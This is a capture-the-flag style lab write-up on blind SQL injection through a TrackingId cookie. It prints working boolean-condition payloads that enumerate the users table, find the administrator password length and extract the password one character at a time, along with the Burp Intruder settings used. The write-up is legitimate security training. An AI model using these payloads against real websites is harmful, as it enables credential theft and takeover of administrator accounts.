

# Blind SQL Injection with Conditional Responses

## Overview

This lab demonstrates the exploitation of a **Blind SQL Injection** vulnerability through the `TrackingId` cookie. By leveraging conditional responses, it is possible to enumerate database information and extract the administrator's password without directly displaying query results.

---

## Vulnerability Verification

Using Burp Suite, the `TrackingId` cookie was modified to test boolean conditions.

### True Condition

```http
TrackingId=xyz' AND '1'='1
```

**Result:** The response contained the message:

```text
Welcome back
```

### False Condition

```http
TrackingId=xyz' AND '1'='2
```

**Result:** The `Welcome back` message disappeared.

This behavior confirmed the presence of a **Boolean-based Blind SQL Injection** vulnerability.

---

## Database Enumeration

### Confirming the `users` Table

```http
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

**Result:** Condition evaluated as true.

### Confirming the `administrator` User

```http
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

**Result:** Condition evaluated as true, confirming the existence of the administrator account.

---

## Determining Password Length

The password length was identified by testing incremental values with the `LENGTH()` function.

Example:

```http
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

The test was repeated with increasing values until the condition returned false.

### Result

```text
Administrator password length = 20 characters
```

---

## Password Extraction

To extract the password, Burp Intruder was used with the `SUBSTRING()` function.

Example payload:

```http
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

### Intruder Configuration

* Attack Type: Sniper
* Payload Set: `a-z` and `0-9`
* Grep Match: `Welcome back`

For each character position:

```sql
SUBSTRING(password,1,1)
SUBSTRING(password,2,1)
SUBSTRING(password,3,1)
...
SUBSTRING(password,20,1)
```

The correct character was identified whenever the response contained the `Welcome back` message.

This process was repeated until the complete administrator password was recovered.

---

## Administrator Login

After successfully extracting the password, authentication was performed using the administrator account.

### Login Screenshot

> Replace the image below with your own screenshot.

```md

```


---

## Conclusion

This assessment demonstrated how a Boolean-based Blind SQL Injection vulnerability can be exploited to:

* Verify SQL injection through conditional responses.
* Enumerate database tables and users.
* Determine password length.
* Extract sensitive credentials character by character.
* Gain access to a privileged administrator account.

### Skills Demonstrated

* Burp Suite Repeater
* Burp Suite Intruder
* Boolean-based Blind SQL Injection
* Database Enumeration
* Credential Extraction
* Web Application Security Testing

---

**Disclaimer:** This activity was performed in a controlled lab environment for educational and ethical security testing purposes only.
